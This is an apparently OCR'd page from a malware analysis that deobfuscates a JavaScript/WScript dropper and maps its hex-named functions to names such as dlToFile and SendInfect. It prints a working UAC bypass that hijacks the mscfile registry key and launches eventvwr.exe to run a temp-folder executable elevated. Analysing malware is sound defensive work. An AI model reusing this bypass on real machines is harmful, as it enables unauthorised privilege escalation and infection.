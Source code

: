 ```js
        if (k != null) {
            if (c < p) k.push(h.substring(c));
            s[v] = k.join("");
        }
    }
    o.push(s[0]);
}
var y = o.join("");
var q = [32, 96, 39, 42, 92, 10].concat(z);
var n = String.fromCharCode(46);
for (var x = 0; x < q.length; x++) y = y.split(n + g.charAt(x)).join(String.fromCharCode(q[x]));
return y.split(n + "!").join(n);
```

`fbU` is just a function code without scope, so `gnk` and `DyJ` are the constructors that transform this string in a real function. Var `Dib` is just a `constructor` string.

The var `hal` is just a function code without scope, it is already decoded with all others variables mentioned but it's only missing its header. `lqT` is the function that transforms and calls the `hal`, the part of the code that execute the exploit is

```js
lqT(6038);
```
The `hal` code has a lot of submethods that have strange hex names like `_0x87C1`, fortunately the artist of this malware gave us this table on the last lines of this function:

```js
runAsAdmin = _0x87B4;
dlToFile = _0x87C1;
getPathFromGuid = _0x87CE;
getPathFromGuidWow = _0x87DB;
fileExists = _0x87E8;
folderExists = _0x87F5;
getEnv = _0x8802;
randomStr = _0x880F;
runAsUser = _0x881C;
dlToText = _0x8829;
base64ToBinary = _0x8836;
getCountryName = _0x8843;
getLanguage = _0x8850;
dataPost = _0x885D;
getSO = _0x886A;
SendInfect = _0x8877;
Prosseguir = _0x8884;
Marcar = _0x8891;
Arrochar = _0x889E;
```
So, replacing we have:

```js
function runAsAdmin(runAsAdmin) {
    try {
        var dlToFile = WScript.CreateObject("WScript.Shell");
        dlToFile.Run("REG ADD HKCU\\Software\\Classes\\mscfile\\shell\\open\\command /ve /t REG_SZ /d %temp%/Project1.exe /f");
        WScript.Sleep(1000);
        dlToFile.Run("%SystemRoot%\\System32\\eventvwr.exe");
        WScript.Sleep(60000);
        dlToFile.Run("REG DELETE HKCU\\Software\\Classes\\mscfile\\shell\\open\\command /ve /f")
    } catch (e) {};
    return false
}

function dlToFile(fileExists, dlToFile, runAsAdmin) {
    try {
```